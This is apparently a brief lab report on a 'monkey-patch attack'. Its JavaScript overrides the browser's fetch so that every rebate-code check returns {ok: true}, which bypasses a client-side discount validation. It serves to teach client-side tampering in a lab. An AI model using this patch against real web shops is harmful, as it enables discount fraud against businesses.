

# Monkey-patch Attack lab report

let oldFetch = fetch;
fetch = async function (...args) {
  let [url, options] = args;
  let rawResult = await oldFetch(...args);
  // monkey patch the json method of the rawResult
  let oldJson = rawResult.json;
  rawResult.json = async function () {
    let data = await oldJson.apply(rawResult);
    console.log('request', ...args);
    console.log('response', data);
    if (url.startsWith('/api/check-rebate-code/')) {
      // Return ok: true on all rebate code checks
      data = { ok: true };
      console.log('response after changes', data);
    }
    return data;
  };
  return rawResult;
};